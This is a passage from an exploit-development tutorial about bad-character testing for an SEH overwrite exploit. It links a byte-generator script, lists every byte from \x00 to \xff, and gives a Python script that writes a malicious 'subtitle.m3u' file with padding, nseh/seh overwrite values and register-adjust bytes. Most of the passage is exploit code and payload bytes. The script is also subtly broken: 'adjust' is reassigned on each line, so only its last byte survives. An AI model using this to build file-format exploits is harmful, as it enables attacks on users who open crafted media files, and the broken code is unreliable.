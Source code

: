 

1.  Download generatecodes.pl from [https://exploit.co.il/wp-content/uploads/2010/05/generatecodes.txt](https://exploit.co.il/wp-content/uploads/2010/05/generatecodes.txt)
2.  Edit the code and remove the line:

1.  GetOptions('help|?|' => \\$help);

4.  Run the code with Perl and put the resulting output into a file.

Ok once you have done that its a simple matter of copy and pasting each line in place of the "\\x90"s, then dumping the code in memory and checking that none of the bytes are corrupted or are missing/modified.



Here is the list of codes in case the code doesn't work for you:

> "\\x00\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e"
> "\\x0f\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d"
> "\\x1e\\x1f\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c"
> "\\x2d\\x2e\\x2f\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b"
> "\\x3c\\x3d\\x3e\\x3f\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a"
> "\\x4b\\x4c\\x4d\\x4e\\x4f\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59"
> "\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68"
> "\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77"
> "\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80\\x81\\x82\\x83\\x84\\x85\\x86"
> "\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90\\x91\\x92\\x93\\x94\\x95"
> "\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0\\xa1\\xa2\\xa3\\xa4"
> "\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0\\xb1\\xb2\\xb3"
> "\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0\\xc1\\xc2"
> "\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0\\xd1"
> "\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0"
> "\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef"
> "\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe"
> "\\xff"



> 

So this is what you would change your code to for the first run:



> > #!/usr/bin/python
> > junk  = "\\x41" \* 4078
> > nseh = "\\x61\\x62"
> > seh = "\\xeb\\x46" \* 2
> > adjust = "\\x53" # PUSH EBX
> > adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
> >                          # after the \\x53 instruction in memory
> > adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
> > adjust = "\\x62" # NOP padding
> > adjust = "\\x50" # PUSH EAX to push eax to the stack...
> > adjust = "\\x62" # NOP padding
> > adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
> > buffer = "\\x62" \* 12
> > junk2  =  "\\x00\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e"
> > 
> > 
> > exploit = junk + nseh + seh + adjust + buffer + junk2
> > handler = open ("subtitle.m3u", "w")
> > handler.write(exploit)
> > handler.close()
